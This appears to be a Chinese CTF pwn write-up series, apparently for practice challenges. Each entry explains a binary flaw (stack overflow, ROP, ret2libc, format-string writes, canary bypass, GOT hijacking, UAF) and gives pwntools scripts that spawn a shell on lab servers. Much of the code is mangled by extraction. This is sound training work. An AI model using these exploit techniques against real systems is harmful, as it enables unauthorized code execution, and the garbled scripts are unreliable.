


hello_pwn 变量覆盖
当dword_60106C等于’nuaa‘(1853186401)时，进入sub_00686函数，并获得flag。
unk_601068与dword_60106C相隔4个字节，而read函数可以读16个字节，可以通过覆盖的方式来改变dword_60106C的值，来进入函数获得flag。
方法一：nc连接，输入aaaaaaun，获取flag。注意覆盖存储使用小端序
方法二：脚本
1 2 3 4 5 6 7 from pwn import *'debug' "61.147.171.105" ,"61941" )b"lets get helloworld for bof" )b'a' *4 +p64(1853186401 ))
level0 栈溢出
buf的长度为128个字节（也就是0x80）但是read()函数允许往buf中输入0x200 字节数据，存在栈溢出漏洞。
思路：
向buf处输入0x80字节的数据填满buf，此时在继续输入0x8字节的数据造成溢出覆盖ebp处的数据。
再继续输入数据把返回地址处的数据覆盖为callsystem()的地址，这样vulnerable_function()函数原本要返回到main()函数但是却返回到了callsystem()函数来执行callsystem()
1 2 3 4 5 6 from pwn import * '61.147.171.105' ,'62544' )b"Hello, World\n" ) b'a' *0x88 +p64(0x400596 ))
level2 构造ROP链 ROP(Return Oriented Programming)，其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。
buf所占的空间大小为0x88字节，但read函数读取0x100字节，存在栈溢出。且没有开canary保护，可以一直向下溢出到ret返回的地址。返回的地址可以构造system函数，并让system函数执行“/bin/sh”。
1 2 3 4 5 6 7 8 from pwn import *"61.147.171.105" ,"59089" )0x08048320 0x0804A024 b"Input:\n" )b"a" *0x8c +p32(system)+p32(0 )+p32(bin_sh))
CGfsb 格式化字符串-覆盖任意地址内存 用printf格式化字符串漏洞addr+%N$n修改任意地址的值
cccc对应的636363是第10个参数
pwnme所在地址为0x0804A068
1 2 3 4 5 6 7 8 9 10 from pwn import *'./1' )"please tell me your name:" )'aaa' )"leave your message please:" )0x0804A068 )+b'a' *4 +b'%10$n'
1 2 3 4 5 6 7 8 %d - 十进制 - 输出十进制整数printf 已经打印的字符个数赋值给指针所指向的地址；2 字节，%hhn表示写入的地址空间为1 字节，%lln表示写入的地址空间为8 字节。printf 已经打印的字符个数赋值给printf 的第n个参数
参考：https://www.jianshu.com/p/097e211cd9eb
guess_num 栈溢出以及伪随机数 rand()函数产生的是伪随机数，依靠srand()来产生随机数。如果srand()的参数相同 那么rand产生的随机数相同。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 __int64 __fastcall main (int a1, char **a2, char **a3) int v4; int i; int v6; char v7[32 ]; unsigned int seed[2 ]; unsigned __int64 v9; 0x28 u);setbuf (stdin, 0LL );setbuf (stdout, 0LL );setbuf (stderr, 0LL );0 ;0 ;sub_BB0 ();puts ("-------------------------------" );puts ("Welcome to a guess number game!" );puts ("-------------------------------" );puts ("Please let me know your name!" );printf ("Your name:" );gets (v7); srand (seed[0 ]);for ( i = 0 ; i <= 9 ; ++i )rand () % 6 + 1 ;printf ("-------------Turn:%d-------------\n" , (unsigned int )(i + 1 ));printf ("Please input your guess number:" );"%d" , &v4);puts ("---------------------------------" );if ( v4 != v6 )puts ("GG!" );exit (1 );puts ("Success!" );sub_C3E ();return 0LL ;
注意：下面代码linux下gcc编译执行 ，windows下结果会不同。得到srand参数为0时，伪随机数的结果。
1 2 3 4 5 6 7 8 9 10 11 12 13 #include <stdio.h> #include <stdlib.h> int main () int b;srand (0 );for (size_t i = 0 ; i <=9 ; i++)rand () % 6 + 1 ;printf ("%d\n" , b);return 0 ;
结果为：2542625142。代码如下
1 2 3 4 5 6 7 8 9 10 from pwn import *'./guess_num' )b'a' * 0x20 + p64(0 ) "Your name:" ,payload)'2' ,'5' ,'4' ,'2' ,'6' ,'2' ,'5' ,'1' ,'4' ,'2' ] for i in range (10 ):"Please input your guess number:" ,rand[i])
int_overflow 整数溢出 常见各类型占用字节数如下：
类型
字节
取值范围
int
4
-2147483648~2147483647
short int
2
-32768~32767
long int
4
-2147483648~2147483647
unsigned int
4
0~4294967295
unsigned short int
2
0~65535
unsigned long int
4
0~4294967295
参考：https://ctf-wiki.org/pwn/linux/user-mode/integeroverflow/introduction/
s即传入的passwd长度定义为0x199(409)>0xff(255)，因此长度为000100000100(260)是可以绕过if条件。
strcpy时，dest长度长度定义为0x14，存在栈溢出，可以构造rop链

1 2 3 4 5 6 7 8 9 from pwn import *'./2' )b'a' *(0x14 +4 )+p32(0x0804868B )+b'a' *232 b"choice:" ,b'1' )b"Please input your username:" ,b'demo' )b"Please input your passwd:" ,payload)
cgpwn2 构造ROP链
存在system函数(0x08048420)，但是并没有给/bin/sh，需要自己写了入；name参数(0x0804A080)在.bss段，可以写进去一个/bin/sh，然后s存在栈溢出，可以构造ROP链。
1 2 3 4 5 6 7 8 from pwn import *"61.147.171.105" ,"58434" )b'a' *(0x26 +4 )+p32(0x08048420 )+b'a' *4 +p32(0x0804A080 )b"please tell me your name" ,b'/bin/sh' )b"hello,you can leave some message here:" ,payload)
string 格式化字符串-覆盖任意地址内存 提示string应该是格式化字符串，查找printf函数引用，发现漏洞点
v4=v4[1]时会执行shellcode
难点在理清程序思路
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 from pwn import *'./string' )'linux' , arch='amd64' )b"secret[0] is " )int (p.recvuntil(b'\n' )[:-1 ],16 ) b"What should your character's name be:" ,b'demo' )b"So, where you will go?east or up?:" ,b'east' )b"go into there(1), or leave(0)?:" ,str (1 )) b"'Give me an address'" ,str (addr)) b"And, you wish is:" ,b"%85c%7$n" ) b"Wizard: I will help you! USE YOU SPELL" ,shell)
level3 ROP-ret2libc
流程：
篡改控制流为read->write->main，通过write(1, write_got, 4)得到write函数地址，计算出libc基址
控制流回到main函数，再次篡改为main->vulnerable_function->system(‘/bin/sh’)，完成ret2libc
1 2 3 4 5 '/bin/sh' "/bin/sh"
“/bin/sh”与write函数的相对距离为0x15902b - 0xd43c0 = 0x84c6b；
system与write的相对距离为0x3a940-0xd43c0=-0x99A80
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 from pwn import *'61.147.171.105' ,53144 )'level3' )'libc_32.so.6' )b'0' *0x8c +p32(elf.plt['write' ])+p32(elf.symbols['main' ])+p32(1 )+p32(elf.got['write' ])+p32(4 )4 ]) b'0' *0x8c +p32(write_addr-0x99a80 )+b'0000' +p32(write_addr+0x84c6b )
dice_game 栈溢出以及伪随机数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from pwn import *from ctypes import *'61.147.171.105' ,62460 )"libc.so.6" )b"know your name:" )b'0' *0x40 +p64(1 )for i in range (50 ):6 +1 )for a in res:b"Give me the point(1~6): " , str (a))
forgot 栈溢出
注意填充数据不能满足以下条件，会改变v5的值。

1 2 3 4 5 6 7 8 9 10 11 12 from pwn import *'./forgot' )b"What is your name?\n> " )b"demo" )b"Enter the string to be validate\n> " )b'A' *(0x74 -0x54 )+p32(0x80486CC ))
Mary_Morton 格式化字符串、绕过Canary保护机制、栈溢出 1 2 3 4 Canary保护机制CANARY 放到栈上紧挨ebp的上一个位置，当攻击者想通过缓冲区溢出覆盖ebp或者ebp下方的返回地址时，一定会覆盖掉CANARY 的值；当程序结束时，程序会检查CANARY 这个值和之前的是否一致，如果不一致，则不会往下运行，从而避免了缓冲区溢出攻击
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 from pwn import *"61.147.171.105" ,61806 )0x0004008DA b"battle \n" )b"2" )b"%23$p" ) int (c,16 )print (canary)b"battle \n" )b"1" )b'a' *0x88 + p64(canary) + b'a' *8 + p64(sys_addr)
warmup 盲打栈溢出 1 2 3 4 5 6 7 8 9 10 11 12 13 14 from pwn import *0x40060d for i in range (100 ):print (i)try :"61.147.171.105" ,64494 )b'A' *i + p64(sys)b">" )print (p.recv())except :
stack2⭐ 未检查数组边界，造成任意地址修改
hackhere函数存在system(“/bin/sh”)，地址0x0804859B
重点就要确定的就是main函数返回位置距离数组的偏移
根据代码和汇编指令确定数组首地址，运行到ret时ESP值就是main函数返回地址，相减得到偏移0x84。
通过ida直接找返回地址相对于数组的偏移算出来是有问题的，因为是函数最后使用leave和lea指令调整了栈帧，将栈底恢复到了之前的位置。栈底发生了变化，偏移量也就变化了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 from pwn import *def change (offest,by ):'exit' ,'3\n' )'r to change:' ,str (offest)+'\n' )'number:' ,str (by)+'\n' )'./stack2' )'y numbers you have:' ,'0\n' )0x84 ,0x9B ) 0x85 ,0x85 )0x86 ,0x04 )0x87 ,0x08 )'exit' )'5' )
本地没有问题，远程报错服务器找不到bash。（出题人的问题）
改变思路，使用程序里的system函数，以及sh字符串。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from pwn import *def change (offest,by ):'exit' ,'3\n' )'r to change:' ,str (offest)+'\n' )'number:' ,str (by)+'\n' )'61.147.171.105' ,53919 )'y numbers you have:' ,'0\n' )0x84 ,0x50 )0x85 ,0x84 )0x86 ,0x04 )0x87 ,0x08 )0x8c ,0x87 )0x8d ,0x89 )0x8e ,0x04 )0x8f ,0x08 )'exit' )'5' )
pwn-100⭐ ROP-ret2csu 参考:https://blog.csdn.net/qin9800/article/details/104759217
开了NX，没办法直接往栈上写ShellCode
read读取0xC8个字符，而用户输入数据的首地址到ebp只有0x40个字节，存在栈溢出
程序没有提供libc，也没有system函数，但是有puts函数，可以通过pwntools的DynELF来远程获取libc（也可以使用LibcSearcher）
DynELF参考：https://blog.csdn.net/qq_40827990/article/details/86689760
1 2 3 使用 ROPgadget 工具搜索到的 pop rdi rdi 的内容和返回地址来处理，搜索的方法可以使用诸如"pop|ret" | grep "rdi"
ret2csu参考：https://blog.csdn.net/AcSuccess/article/details/104448463
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 from pwn import *"61.147.171.105" , 56721 )"./pwn100" )0x400550 0x400763 "puts" ]def leak (addr ):0x40 + 0x8 ) 200 , b"A" )b"bye~\n" )1 ] if not data:b"\x00" return data "system" , "libc" )print ("system addr:" , hex (system_addr))print ("----------- write /bin/sh to bss --------------" )0x601000 0x40075a 0x400740 print ("准备发送" )"read" ]0x40 + 0x8 )0 ) + p64(1 ) + p64(read_got) + p64(8 ) + p64(str_addr) + p64(0 ) + p64(movcall_addr)56 )200 , b"B" )b"bye~\n" )b"/bin/sh\x00" )print ("成功发送" )print ("----------- get shell --------------" )b'a' *(0x40 + 0x8 ) 200 , b"B" )
pwn-200 ret2libc、DynELF
思路：使用DynELF通过泄露的write地址，获得system地址；在bss段写入/bin/sh；通过溢出点构造rop
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 from pwn import *'61.147.171.105' ,50595 )'./1' )0x80484be 0x80484be 'write' ]'read' ]0x080485cd def leak (addr ):b'a' *0x6c +p32(0 )+p32(write_plt)+p32(main_addr)+p32(1 )+p32(addr)+p32(4 )'Welcome to XDCTF2015~!\n' , payload)return data "system" , "libc" )print ("system addr:" , hex (system_addr))b'a' *0x6c +p32(0 )+p32(read_plt)+p32(ppp_ret)+p32(0 )+p32(bss_addr)+p32(8 )+p32(system_addr)+p32(0 )+p32(bss_addr)'Welcome to XDCTF2015~!\n' , payload)b'/bin/sh' )
monkey 1 2 3 4 5 6 7 from pwn import *'debug' "61.147.171.105" ,"54838" )'js> ' , "os.system('cat flag')" )
pwn1 ROP-ret2libc、绕过Canary 1 2 3 one_gadget就是用来去查找动态链接库里execve("/bin/sh" , rsp+0 x70, environ)函数的地址的install rubyinstall one_gadget
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 from pwn import *'61.147.171.105' ,59945 )'./babystack' )'./libc-2.23.so' )'puts' ] 'puts' ]0x400908 0x400a93 '>> ' ,'1' )b'A' *0x88 ) '>> ' ,'2' )'A\n' )7 ).rjust(8 ,b'\x00' ))print (hex (canary))b'A' *0x88 + p64(canary) + b'B' *8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)'>> ' ,'1' )'>> ' ,'3' )8 ,b'\x00' ))print (hex (real_puts))'puts' ]0x45216 b'A' *0x88 + p64(canary) + b'B' *8 + p64(execve)'>> ' ,'1' )'>> ' ,'3' )
实时数据监测 格式化字符串-大数覆盖 https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_15
1 2 3 4 5 6 7 8 from pwn import *'./123' )12 , {0x0804a048 : 0x02223322 })
1 2 3 4 5 fmtstr_payload(offset , writes , numbwritten =0, write_size ='byte ') 0 ，采用默认值即可；int ），对应着hhn、hn和n，默认值是byte，即按hhn写。
welpwn ret2cus、DynELF 将buf的内容写入s2中，s2距离rbp只有0x10，可以进行溢出。但是发现是向s2中赋值的时候，遇到’\x00’就会中断for循环，而rbp肯定存在’\x00’。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 from pwn import *'61.147.171.105' ,56291 )'./welpwn' )0x40089C 0x40089A 0x400880 0x4008A3 0x400630 'write' ]'read' ]def leak (addr ):0 )+p64(1 )+p64(write_got)+p64(8 )+p64(addr)+p64(1 )+p64(movecall_addr)+b'x' *56 +p64(main_func)b'x' *24 + p64(pop4) + rop).ljust(1024 ,b'X' ))8 )return data'system' , 'libc' )print (hex (system))0 )+p64(1 )+p64(read_got)+p64(8 )+p64(bss_addr)+p64(0 )+p64(movecall_addr)+b'a' *56 b'x' *24 + p64(pop4) + rop).ljust(1024 ,b'X' ))'/bin/sh\x00' )
Use After Free-Heap https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/use-after-free/
1) Set a time format.对应函数sub_400E00，申请内存存储字符串并检查格式，这里注意sub_400E43也调用了堆申请函数。
sub_400D74函数内sub_400C26申请内存
将包含ptr的格式化command给system执行
思路：因为没有置空，所以这个时候ptr成为了悬空指针 ；
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 from pwn import *'./123' )'> ' )'1' )'Format: ' )'a' * 10 )'> ' )'5' )'Are you sure you want to exit (y/N)? ' )'N' )'> ' )'3' )'Time zone: ' )"';/bin/sh'" )'> ' )'4' )
Recho 劫持got表、ORW
syscall 与alarm函数起点 mov eax 的偏移量为 5。
把alarm的got表地址放在rdi里，然后把偏移量5放到rax里，我们就实现了把alarma的调用改成了syscall的调用
open()、read()、print()构造长ROP。全部pop|ret，代码里需要
1 cat /usr/i nclude/x86_64-linux-gnu/ asm/unistd_64.h
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 from pwn import *'debug' '61.147.171.105' ,64809 )"./1" )"alarm" ])"alarm" ])"read" ])"printf" ])0x4006fc )0X4008a1 )0x4008a3 )0x4006fe )0x40070d )0x601090 ) 0x601058 ) b"A" *0x38 0X5 ) 0x0 ) + p64(0x0 ) 0x2 ) 0x3 ) 0x0 ) 0x30 ) 'Welcome to Recho server!\n' )str (0x200 )) 0x200 ,b'\x00' )'send' )
greeting-150 格式化字符串、覆盖 .fini_array
linux x86程序执行流程。在main函数之前会执行一些其他的函数，init_array数组里面的函数会被一一执行，而且main函数结束后还会执行fini_array数组里面的函数。
思路：通过格式化字符串漏洞将函数strlen函数劫持为system函数(got表劫持 )，将fini里面的函数劫持为start函数；输入”/bin/sh”获得flag。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 from pwn import *'61.147.171.105' ,54469 )'./greeting_150' )'linux' ,log_level = 'debug' )'strlen' ] 0x080484F0 0x08049934 0x08048490 b"aa" 2 )b"%2020c%12$hn" b"%31884c%13$hn" b"%96c%14$hn" 'Please tell me your name... ' )b'aa' +payload)'Please tell me your name... ' )b'/bin/sh' )